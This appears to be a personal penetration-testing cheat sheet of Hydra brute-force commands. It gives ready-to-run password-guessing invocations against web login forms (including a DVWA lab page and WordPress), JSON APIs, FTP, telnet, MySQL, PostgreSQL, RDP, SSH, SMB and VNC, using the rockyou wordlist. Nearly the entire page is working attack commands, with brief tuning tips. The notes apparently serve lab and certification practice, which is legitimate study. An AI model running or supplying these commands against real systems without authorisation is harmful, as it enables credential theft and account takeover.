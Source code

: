 #### Hydra URL Forms

![[Pasted image 20220912111730.png]]
```bash - kali
hydra $TARGET -s 80 http-get / -l $USER -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

![[Pasted image 20220418151122.png | 750]]

The above form, part of the <u>/form/login.html page</u>, indicates that the POST request is handled by <u>/form/frontpage.php</u>, which is the URL we will feed to Hydra.  Since we are attacking the admin user login with a wordlist, the combined argument to Hydra becomes:  ==(IS IT "http-form-post" OR "http-post-form")?==

```bash - kali
hydra $TARGET -s 80 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

If you get multiple results:
![[Pasted image 20220927182529.png]]

Try adding a cookie, like:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=$PHPSESSID"
```

OTHER EXAMPLES:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET -s 8081 http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Password!" -t 3
```

```bash - kali
hydra -l none -P rockyou.txt $TARGET http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

```bash - kali
hydra -L users -p passwords -t 10 $TARGET http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid user" -f -t 3
```

```bash - kali
hydra -l $USER -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f -t 3
```

```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt -s 80 $TARGET http-post-form "/login:{'username'\:'^USER^','password'\:'^PASS^'}:failed" -f -t 3
```

==Lower the number of tasks in parallel, if having issues (Default is 16).==
```bash - kali
-t 3
```

### Hydra against JSON:
```bash - kali
hydra -l $USER -P /usr/share/wordlists/rockyou.txt $TARGET -s 3000 http-post-form "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authenticatio n failed:H=Content-Type\: application/json" -t 64
```

#### Hydra against FTP
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ftp -vvv -f -s 21 -t 3
```

#### Hydra against telnet
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET telnet -vvv -f -s 23 -t 3
```

#### Hydra against MySQL
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql -vvv -f -s 3306 -t 3
```

#### Hydra against Postgresql
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET postgres -vvv -f -s 5437 -t 3
```

#### Hydra against RDP
```bash - kali
hydra -l blake -P /usr/share/wordlists/rockyou.txt $TARGET rdp -vvv -f -s 3389 -t 3
```

#### Hydra against SSH
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ssh -vvv -f -s 22 -t 3
```

#### Hydra against SMB
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET smb -vvv -f -s 445 -t 3
```

#### Hydra against VNC
```bash - kali
hydra -P /usr/share/wordlists/rockyou.txt $TARGET vnc -vvv -f -s 5900 -t 3
```


#### Hydra against WordPress
```bash
hydra -vV -L users -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form '/wordpress/wp-login.php:log=^USER^&pwd&wp-submit=Log+In:F=is incorrect' -f -t 3
```